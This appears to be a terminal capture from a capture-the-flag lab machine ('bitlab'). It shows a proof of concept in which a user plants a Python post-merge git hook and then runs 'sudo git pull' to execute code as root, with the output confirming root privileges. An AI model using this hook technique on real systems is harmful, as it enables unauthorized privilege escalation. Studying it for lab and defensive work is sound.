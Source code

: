 ### git
POC
www-data@bitlab:/tmp$ cat << EOF > .git/hooks/post-merge
> #!/usr/bin/env python
> import os
> os.system("id")
> EOF
www-data@bitlab:/tmp$ sudo git pull
sudo git pull
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 4 (delta 2), reused 0 (delta 0)
Unpacking objects: 100% (4/4), done.
From ssh://localhost:3022/root/profile
   be3ad5b..a848dc2  master     -> origin/master
 * [new branch]      patch-14   -> origin/patch-14
Updating be3ad5b..a848dc2
Fast-forward
 test | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)
uid=0(root) gid=0(root) groups=0(root)


